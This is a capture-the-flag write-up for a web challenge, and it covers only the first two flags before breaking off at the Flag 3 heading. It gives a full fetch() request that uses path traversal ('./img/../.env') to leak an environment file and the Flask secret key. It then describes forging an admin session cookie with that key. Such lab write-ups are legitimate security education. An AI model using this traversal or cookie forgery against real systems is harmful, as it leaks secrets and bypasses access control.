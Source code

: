 # Intro to web (<font color=green> </font>)


## Description

5 vulns, 5 stages - can you find them all?

## Tools Used

- 

## Skills Learned

- 

## Steps Taken
### Flag 1
1. From `FLAG_STAGE_1 = os.environ.get("FLAG_STAGE_1")`, to get Flag 1 we have to read .env file.
2. There is a `read_file(path)` function that reads file from path that starts with ./img and a POST request (`/note/new`) that call `read_file(path)` to read and display img file.
3. So we can send a POST request and change the path to `./img/../.env` and the env will be displayed on the site.
    ```
    fetch("https://redview-of-thunderous-wealth.gpn23.ctf.kitctf.de/note/new", {
    "headers": {
        "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
        "accept-language": "en-US,en;q=0.9",
        "cache-control": "max-age=0",
        "content-type": "application/x-www-form-urlencoded",
        "sec-ch-ua": "\"Google Chrome\";v=\"137\", \"Chromium\";v=\"137\", \"Not/A)Brand\";v=\"24\"",
        "sec-ch-ua-mobile": "?0",
        "sec-ch-ua-platform": "\"Windows\"",
        "sec-fetch-dest": "document",
        "sec-fetch-mode": "navigate",
        "sec-fetch-site": "same-origin",
        "sec-fetch-user": "?1",
        "upgrade-insecure-requests": "1"
    },
    "referrer": "https://redview-of-thunderous-wealth.gpn23.ctf.kitctf.de/note/new",
    "referrerPolicy": "strict-origin-when-cross-origin",
    "body": "title=1&content=111&image_path=.img/../.env",
    "method": "POST",
    "mode": "cors",
    "credentials": "include"
    });
    ```
4. The .env will be displayed as a broken image on the site but we can view it in inspect elements `src="data:image/png;base64, <.env>`. The .env will be base64 encoded so just decode it to get flag 1 and FLASK_APP_SECRET_KEY.
### Flag 2
1. From `app.mjs`, flag 2 is in a note and to access this note we have to gain moderator.
2. To gain moderator, we just have to set user role as `admin` seen from the `is_mod()` function. Since we have the flask key, we can forge a cookie with `admin` as user role using this [script](forge.py).
3. Replace session cookie with the forged cookie and go to `/moderator` and the flag will be in a note titled `My juicy note`
### Flag 3